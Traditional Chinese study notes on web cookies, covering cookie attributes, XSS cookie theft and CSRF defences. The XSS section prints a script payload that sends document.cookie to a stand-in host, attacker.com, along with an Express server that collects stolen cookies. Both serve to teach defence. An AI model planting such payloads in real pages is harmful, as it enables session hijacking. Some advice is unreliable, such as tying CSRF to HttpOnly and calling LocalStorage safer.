

# Cookie

## Cookie 的作用

    小型檔案(Browser 控制)
    存用戶的偏好設定、登入狀態、跟蹤用戶行為等資料。

## Server 端設定 Cookie 傳給 Client



```js
const express = require("express");
const app = express();

app.get("/login", (req, res) => {
  // 設置一個名為 'user_id' 的 Cookie
  res.cookie("user_id", "12345", {
    expires: new Date("2025-10-21"),
    httpOnly: true, // 防止 JavaScript 訪問該 Cookie
    secure: true, // 僅在 HTTPS 連接下傳送
    sameSite: "Strict", // 防止跨站請求傳送 Cookie
  });

  res.send("Logged in and cookie set");
});

app.listen(3000, () => {
  console.log("Server running on http://localhost:3000");
});
```

### 2. Cookie 的結構

每個 Cookie 由以下幾部分組成：

    名稱：每個 Cookie 都有一個名稱，這個名稱用來識別儲存在用戶端的資訊。
    值：名稱對應的資料（例如，用戶名稱、登入憑證、設置等）。
    過期時間：Cookie 是否永久有效，還是會在某段時間後過期。如果沒有設置過期時間，則為 Session Cookie，當瀏覽器關閉後會自動失效。
    路徑（Path）：指定哪一部分網站能夠存取這個 Cookie。只有當請求的 URL 符合此路徑時，Cookie 才會被發送。
    域（Domain）：指定哪些域名下的網站可以讀取這個 Cookie。
    Secure：這個標誌表示只有在 HTTPS 協議下才會傳輸該 Cookie。
    HttpOnly：這個標誌表示這個 Cookie 無法被 JavaScript 訪問，只能由伺服器讀取。這是防範 XSS 攻擊的一個安全機制。

刪除 Cookie：Cookie 可以被刪除。通常是通過設定過期時間為過去的時間來達成。

### 4. 常見用途

    身份驗證：網站會使用 Cookie 來保存用戶登入狀態。當用戶登入後，伺服器會將一個包含用戶身份的 Cookie 發送給瀏覽器，這樣用戶下次訪問網站時就不需要重新登入。
    追蹤與分析：網站可以使用 Cookie 來記錄用戶的瀏覽行為，從而進行網站分析和個性化推薦。
    儲存偏好設置：Cookie 可以儲存用戶的網站偏好設置，如語言、主題等，讓用戶在每次訪問時都能看到自己偏好的頁面設定。

### 5. 安全與隱私

    由於 Cookie 會儲存用戶的敏感資料，因此它們也會成為攻擊的目標，以下是一些常見的安全問題：

    Cross-Site Scripting (XSS)：如果網站的 JavaScript 程式碼不夠安全，攻擊者可能會利用 XSS 漏洞來竊取 Cookie 資料。
    Cross-Site Request Forgery (CSRF)：如果 Cookie 不設置為 HttpOnly，攻擊者可以通過偽造請求來執行未經授權的操作。
    Cookie 竊取與偽造：攻擊者如果能夠取得或篡改 Cookie，則可能冒充用戶身份。

當網站的 JavaScript 程式碼存在 Cross-Site Scripting (XSS) 漏洞時，攻擊者可能會注入惡意的 JavaScript 代碼，這些代碼可以在用戶的瀏覽器中執行。這樣，攻擊者就有機會竊取用戶的 Cookie 或執行其他危險操作。

### XSS 攻擊流程示例

假設一個網站存在 XSS 漏洞，並且該網站允許用戶在留言板上提交文本。假如這個網站沒有適當過濾用戶輸入的內容，攻擊者就可以將惡意的 JavaScript 代碼注入到留言中。

範例：
用戶提交留言時沒有過濾內容： 攻擊者在留言板上提交以下內容：

```html
<script>
  fetch("https://attacker.com/steal-cookie", {
    method: "POST",
    body: document.cookie,
  });
</script>
```

這段代碼是惡意的，它會將當前頁面的 document.cookie（也就是用戶的 Cookie）發送到攻擊者控制的伺服器 attacker.com。

網站顯示留言時不過濾 HTML： 由於網站沒有過濾用戶輸入的 HTML，這段惡意的 JavaScript 代碼就會被直接插入到頁面中。

用戶查看留言板時觸發惡意腳本： 當其他用戶瀏覽該留言板頁面時，瀏覽器會執行頁面中的 JavaScript 代碼。由於該代碼包含了 document.cookie，它會將該用戶的 Cookie 資料發送到攻擊者的伺服器。

攻擊者獲得 Cookie 資料： 攻擊者可以在自己的伺服器上接收到目標用戶的 Cookie 資料，這些資料可能包含敏感信息，如身份認證令牌（Session ID）等。攻擊者可以利用這些 Cookie 資料冒充用戶，進行會話劫持。

如何防範 XSS 攻擊？
對用戶輸入進行過濾和編碼：

防止 HTML 標籤和 JavaScript 代碼被執行。應該對用戶的輸入進行 HTML 編碼或過濾。
使用像是 DOMPurify 這樣的庫來過濾潛在的惡意代碼。
使用內容安全策略（CSP，Content Security Policy）：

設定 CSP 標頭來限制哪些來源的腳本可以執行。這可以減少 XSS 攻擊的風險，因為即使攻擊者能夠注入惡意代碼，CSP 也可以阻止它的執行。
避免將敏感資料存儲在 Cookie 中：

如果必須使用 Cookie 存儲敏感信息，請確保設置 HttpOnly 和 Secure 標誌，這樣 JavaScript 就無法訪問這些 Cookie。
考慮使用更安全的儲存方法，例如 SessionStorage 或 LocalStorage。
定期檢查和測試應用程式的安全性：

定期執行安全掃描和滲透測試，及早發現和修補 XSS 漏洞。
總結
在沒有適當過濾的情況下，XSS 漏洞允許攻擊者注入並執行惡意的 JavaScript 代碼，從而竊取用戶的 Cookie 資料。透過有效的輸入過濾、使用 CSP、設置安全的 Cookie 旗標等措施，可以防止這類攻擊。

### 攻擊者 Server 範例碼

```ts
const express = require("express");
const app = express();
app.use(express.json());

app.post("/steal-cookie", (req, res) => {
  // 將被竊取的 Cookie 資料存儲到伺服器
  const stolenCookie = req.body; // 這裡是從受害者發送的 Cookie 資料
  console.log("Stolen Cookie:", stolenCookie);

  // 可以將資料存儲到數據庫或轉發到其他地方
  res.send("Cookie stolen!");
});

app.listen(3000, () => {
  console.log("Attacker server running on port 3000");
});
```

### 如何防範 CSRF 攻擊

使用 CSRF Token：

在所有敏感操作的請求中，要求用戶提交一個唯一的隨機 token，並且這個 token 只有在該用戶的會話中有效。伺服器會檢查這個 token 是否與當前請求中的 token 匹配，這樣可以防止 CSRF 攻擊。
例如，當用戶提交表單時，應該包含一個 CSRF token：

```html
<form action="/transfer" method="POST">
  <input type="hidden" name="csrf_token" value="unique_token_value" />
  <input type="text" name="amount" />
  <input type="text" name="to_account" />
  <button type="submit">Transfer</button>
</form>
```

伺服器會驗證這個 token，只有當它是正確的時候才執行轉帳操作。

設置 SameSite Cookie 屬性：

SameSite 屬性可以防止瀏覽器在跨站請求中自動發送 Cookie。這樣，如果攻擊者試圖發起跨站請求，瀏覽器不會自動附加用戶的 Cookie。
可以設置 SameSite 屬性為 Strict 或 Lax：

```http
Set-Cookie: session_id=abc123; SameSite=Strict;
SameSite=Strict：當請求來自不同來源時，瀏覽器不會發送 Cookie。
SameSite=Lax：對於某些類型的跨站請求（如 GET 請求），瀏覽器會發送 Cookie，但對 POST 等請求會限制。
```

驗證 Referer 或 Origin 標頭：

可以檢查 HTTP 請求中的 Referer 或 Origin 標頭來確保請求是來自合法的網站。例如，在處理敏感請求時，伺服器可以檢查這些標頭，確認請求是來自於自家網站。
使用 HttpOnly 和 Secure 標誌：

雖然 HttpOnly 主要是防範 XSS 攻擊，它同樣可以增加防範 CSRF 攻擊的安全性，因為攻擊者無法直接從 JavaScript 獲取 Cookie。
Secure 標誌確保只有在 HTTPS 請求中傳送 Cookie。
總結
CSRF 攻擊利用用戶在目標網站的有效會話，通過偽造請求來執行未經授權的操作。防範 CSRF 攻擊的方法包括使用 CSRF token、設置 SameSite Cookie 屬性、驗證 Referer 或 Origin 標頭等安全措施。這些措施能有效地保護網站免受這類攻擊。
